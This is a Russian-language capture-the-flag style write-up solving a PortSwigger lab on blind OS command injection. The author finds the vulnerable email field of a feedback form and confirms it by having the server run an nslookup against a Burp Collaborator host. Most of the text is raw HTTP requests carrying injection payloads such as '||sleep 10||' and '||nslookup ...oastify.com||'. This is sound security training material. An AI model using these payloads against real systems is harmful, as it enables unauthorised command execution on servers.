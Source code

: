 ```yaml
---
title: "Blind OS command injection with out-of-band interaction"
date: 2025-06-27
tags: [injection, writeup, web]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band"
classes: wide
---
```


В лабе содержится уязвимость **Blind OS command injection**. Для решения необходимо отправить `DNS` запрос с сервера.

```
https://0a1700670377fbe881bf11c0001400cb.web-security-academy.net/
```

## Solution

Пойду гулять по сайту. Интерес вызвала форма отправки обратной связи. Соберу запрос. А вот и он:

```http
POST /feedback/submit HTTP/2
Host: 0a1700670377fbe881bf11c0001400cb.web-security-academy.net
Cookie: session=LdgQEOLRcZNpwpgaJyQScEUX7svKo61p
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a170040039c75fb804a3f4b00eb005f.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Origin: https://0a170040039c75fb804a3f4b00eb005f.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=eoMBcu5ppx8X1LdESVQjPbY8awXhslM2&name=name&email=email%40mail.com&subject=subject&message=message
```

Отправлю в `Repeater`, чтобы потестить поля. Отправлю `sleep 10` через поля формы:

```http
POST /feedback/submit HTTP/2
Host: 0a1700670377fbe881bf11c0001400cb.web-security-academy.net
Cookie: session=LdgQEOLRcZNpwpgaJyQScEUX7svKo61p
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a170040039c75fb804a3f4b00eb005f.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Origin: https://0a170040039c75fb804a3f4b00eb005f.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=eoMBcu5ppx8X1LdESVQjPbY8awXhslM2&name=sleep 10&email=email%40mail.com&subject=subject&message=message
```

Это не сработало, попробую добавить разделители `||`:

```http
POST /feedback/submit HTTP/2
Host: 0a1700670377fbe881bf11c0001400cb.web-security-academy.net
Cookie: session=LdgQEOLRcZNpwpgaJyQScEUX7svKo61p
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a170040039c75fb804a3f4b00eb005f.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Origin: https://0a170040039c75fb804a3f4b00eb005f.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=eoMBcu5ppx8X1LdESVQjPbY8awXhslM2&name=||sleep 10||&email=email%40mail.com&subject=subject&message=message
```

Все еще нет( Возможно сервер не дожидается обработки запроса, а сразу возвращает ответ. Или же тут нет уязвимости( Попробую использовать `OAST`. То есть я попробую выполнить команду, которая отправит `DNS` запрос на контролируемый мной сервер. Таким образом, если я получу запрос, то уязвимость есть. Если же не получу, то ее нет. Либо же не подходящий способ определения. Ну чтож, буду использовать следующую команду для инъекции:

```bash
nslookup 525tm2a733ae0a44gqp5s89be2kt8jw8.oastify.com
```

Повторю процесс для каждого из полей. Уязвимым оказалось поле `email`:

```http
POST /feedback/submit HTTP/2
Host: 0a1700670377fbe881bf11c0001400cb.web-security-academy.net
Cookie: session=ZP3SAEE4LBuL0ZwxFKpvv5HOiWXVx5Go
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1700670377fbe881bf11c0001400cb.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 142
Origin: https://0a1700670377fbe881bf11c0001400cb.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=oRntvNOT2etKminxk9L3GoaRwInZLRJk&name=name&email=a||nslookup 525tm2a733ae0a44gqp5s89be2kt8jw8.oastify.com||&subject=subject&message=message
```

Получил запросы в `Burp Collaborator`:

![IMG](/assets/images/IMG_os_command_injection/IMG_Blind_OS_command_injection_with_out-of-band_interaction/1.png){: height="200" .align-center}

Лаба решена)

![IMG](/assets/images/IMG_os_command_injection/IMG_Blind_OS_command_injection_with_out-of-band_interaction/2.png){: height="200" .align-center}
